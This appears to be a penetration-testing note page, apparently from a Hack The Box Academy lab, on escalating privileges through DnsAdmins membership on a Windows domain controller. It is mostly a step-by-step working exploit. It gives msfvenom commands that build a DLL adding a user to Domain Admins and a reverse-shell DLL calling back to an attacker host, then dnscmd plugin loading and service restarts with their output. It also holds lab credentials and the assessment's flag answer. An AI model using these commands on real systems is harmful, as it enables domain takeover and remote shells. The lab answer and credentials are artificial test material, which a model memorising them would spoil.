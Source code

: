 # DnsAdmins

this group have access to DNS information on the network and since the DNS service runs as `NT AUTHORITY\SYSTEM` we could potentially escalate privilege on DC.

the following attack can be performed when DNS is run on a Domain Controller (which is very common):

* DNS management is performed over RPC
* [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with **zero verification** of the DLL's path. This can be done with the `dnscmd` tool from the command line
* When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
* When the DNS service is restarted, the **DLL in this path will be loaded** (i.e., a network share that the Domain Controller's machine account can access)
* An **attacker can load a custom DLL to obtain a reverse shell** or even load a tool such as Mimikatz as a DLL to dump credentials.

### Leveraging DnsAdmins Access

**Generating Malicious DLL**

to add a user to the `domain admins` group using `msfvenom`.

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

**Starting Local HTTP Server**

```shell-session
carbonlky@htb[/htb]$ python3 -m http.server 7777
```

**Downloading File to Target**

```powershell-session
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

**Loading DLL as Non-Privileged User (Will ERROR)**

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

**Loading DLL as Member of DnsAdmins**

```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109           
```

**Loading Custom DLL**

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

{% hint style="info" %}
specify the full path to our custom DLL or the attack will not work properly.
{% endhint %}

**Finding User's SID**

```cmd-session
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

**Checking Permissions on DNS Service**

```cmd-session
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

user has `RPWP` permissions -> `SERVICE_START` and `SERVICE_STOP`

**Stopping the DNS Service**

```cmd-session
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

**Starting the DNS Service**

```cmd-session
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

**Confirming Group Membership**

```cmd-session
C:\htb> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

## Clean up

**Confirming Registry Key Added**

```cmd-session
C:\htb> reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters
    GlobalQueryBlockList    REG_MULTI_SZ    wpad\0isatap
    EnableGlobalQueryBlockList    REG_DWORD    0x1
    PreviousLocalHostname    REG_SZ    WINLPE-DC01.INLANEFREIGHT.LOCAL
    Forwarders    REG_MULTI_SZ    1.1.1.1\08.8.8.8
    ForwardingTimeout    REG_DWORD    0x3
    IsSlave    REG_DWORD    0x0
    BootMethod    REG_DWORD    0x3
    AdminConfigured    REG_DWORD    0x1
    ServerLevelPluginDll    REG_SZ    adduser.dll
```

**Deleting Registry Key**

```cmd-session
C:\htb> reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll

Delete the registry value ServerLevelPluginDll (Yes/No)? Y
The operation completed successfully.
```

**Starting the DNS Service**

```cmd-session
C:\htb> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4984
        FLAGS              :
```

## Mimilib.dll

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}
Follow this blog to use the dns privilege and get reverse shell
{% endembed %}

Or the following blog to get a reverse shell as NT AUTHORITY/SYSTEM on a DC

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/" %}
DNSAdmin to DomainAdmin
{% endembed %}

## Assessement

**Leverage membership in the DnsAdmins group to escalate privileges. Submit the contents of the flag located at c:\Users\Administrator\Desktop\DnsAdmins\flag.txt**

1. Create Reverse shell payload for DLL

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=7890 -f dll -o script.dll        
```

2. Move file to the target

* I personally mounted the drive to the xfreerdp session

```
xfreerdp /v:10.129.43.42 /u:netadm /p:HTB_@cademy_stdnt! /drive:/home/kali/Desktop/htb_academy/privesc_windows
```

3. Upload the reverse shell as plugin

```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\script.dll
```

4. Stop and Start the dns service

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption><p>MAKE SURE TO RUN SC.EXE NOT SC IF USING POWERSHELL!!</p></figcaption></figure>

5. Listen to the incomming request and get the reverse shell as NT AUTHORITY/SYSTEM

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption><p>Privilege escalated</p></figcaption></figure>

* **Dll\_abus3\_ftw!**
